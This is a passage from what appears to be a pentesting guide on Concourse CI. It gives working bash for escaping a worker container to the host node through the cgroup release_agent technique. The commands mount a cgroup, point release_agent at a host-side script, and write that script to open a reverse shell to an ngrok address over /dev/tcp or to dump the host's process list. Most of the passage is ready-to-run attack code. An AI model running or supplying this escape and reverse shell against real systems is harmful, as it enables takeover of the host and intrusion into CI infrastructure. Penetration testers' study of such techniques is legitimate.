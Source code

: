 ```bash
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```

{% hint style="warning" %}
As you might have noticed this is just a [**regular release\_agent escape**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/concourse-security/broken-reference/README.md) just modifying the path of the cmd in the node
{% endhint %}

#### Escaping to the node from a Worker container

A regular release\_agent escape with a minor modification is enough for this:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -n 1`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```

#### Escaping to the node from the Web container

Even if the web container has some defenses disabled it's **not running as a common privileged container** (for example, you **cannot** **mount** and the **capabilities** are very **limited**, so all the easy ways to escape from the container are useless).
